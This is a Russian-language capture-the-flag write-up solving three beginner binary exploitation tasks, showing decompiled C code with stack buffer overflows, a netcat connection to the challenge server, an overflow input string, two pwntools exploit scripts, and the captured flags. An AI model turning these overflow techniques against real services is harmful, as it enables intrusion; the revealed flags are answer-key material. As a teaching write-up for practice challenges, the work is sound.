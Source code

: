 # PWN. Analysis of tasks solving from forkbomb
* Easy Overflow 1
* Sleep
* Auto Overflow 1

## Easy Overflow 1
Откроем исполняемый файл в Cutter, посмотрим на `main` и увидим следующий код:
```
    undefined4 dbg.main(void)
    {
        int32_t iVar1;
        int var_120h;
        int var_11ch;
        char word [257];
        char giveflag [5];
        
        // int main();
        stack0xfffffffffffffff4 = 0;
        giveflag._0_4_ = 0x2e6f4e;
        printf("What\'s your favorite word? ");
        scanf(data.004006c4, word);
        iVar1 = strcmp(giveflag, "Yesss!");
        if (iVar1 == 0) {
            printf("Flag is: spbctf{*********************}\n");
        } else {
            printf("Good, but i won\'t give you flag.\n");
        }
        return stack0xfffffffffffffff4;
    }
```
Заметим, что переменная `giveflag` объявляется сразу после `word`, которая занимает 257 бит. Тогда отправим 264 "мусорных байта", а затем строку Yesss!
```
nc 109.233.56.90 11584
```
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacYesss!
```
После чего получаем флаг **spbctf{babys_f1rst_0verfl0ww}**
## Sleep
Откроем исполняемчый файл в Cutter и в функции `main` увидим следующее:
```
    undefined8 main(void)
    {
    char *buf;
    int s;
    
    alarm(5);
    s = 0x400;
    printf("Enter your name: ");
    read(0, &buf, 0x400);
    printf("Hello %s! You will get your flag in %d seconds\n", &buf, s);
    sleep(s);
    system("cat /flag");
    return 0;
    }
```
Проанализировав код, приходим к выводу, что необходимо перетереть переменную `s`, отвечающую за время, через которое нам выдадут флаг.
Также это нужно сделать менее, чем за 5 секунд, ведь, из-за команды `alarm(5)`, программа завершится. Напишем следующий эксплойт при помощи `pwntools`:
```
from pwn import *

exe = context.binary = ELF('./path-to-binary')

host = args.HOST or '109.233.56.90'
port = int(args.PORT or 11576)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()
io.recvuntil(b'Enter your name: ')
load = b'\0'*272
io.send(load)
io.interactive()

```
Теперь осталось лишь запустить эксплойт: `python3 exploit-name.py` и получить **флаг: spbctf{beep_boop_overflow_int_variable}**

## Auto Overflow 1
Откроем исполняемый файл в Cutter и посмотрим на функцию `main`:
```
undefined4 main(void)
{
    undefined4 uVar1;
    int32_t iVar2;
    int var_88h;
    int var_84h;
    int var_80h;
    int var_7ch;
    char *var_78h;
    int var_6ch;
    int var_64h;
    int var_60h;
    int var_5ch;
    int var_58h;
    int var_54h;
    char verify [65];
    int rnd;
    
    // int main();
    uVar1 = time(0);
    srand(uVar1);
    uVar1 = rand();
    sprintf(verify, 0x4008e4, uVar1);
    printf("Welcome to Битва Экстрасенсов.\n");
    printf("OK, here\'s the deal.\n");
    printf("We want you to set the value of string1 to \'%s\'.\n", verify);
    printf("And you only have 1 second to check your superspeed.\n");
    alarm(1);
    printf("Give me your input: ");
    gets(input);
    iVar2 = strcmp(string1, verify);
    if (iVar2 == 0) {
        printf("Yissss!\n");
        printf("Flag is: spbctf{******************************}\n");
    } else {
        printf("YOU FAILED\n");
        printf("Because, here\'s the target string: \'%s\'\n", verify);
        printf("      And here\'s the your string1: \'%s\'\n\n", string1);
        printf("See the difference?\n");
    }
    return 0;
}
```
Проведя анализ, понимаем, что нужно менее чем за 1 секунду отправить 64 "мусорных байта", а затем изменить строку на требуюмую. Это можно сдлеать при помощи `pwntools`:
```
from pwn import *

exe = context.binary = ELF('path-to-binary')

host = args.HOST or '109.233.56.90'
port = int(args.PORT or 11587)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

io.recvuntil(b"string1 to '")
need = io.recvuntil(b"'")
need = need[0:-1]
load = b'A'*64 + need
io.sendline(load)

io.interactive()

```
Теперь запустим эксплойт: `python3 exploit-name.py` и получаем **флаг: spbctf{how_d1d_y0u_l1ke_the_g37s_func}**
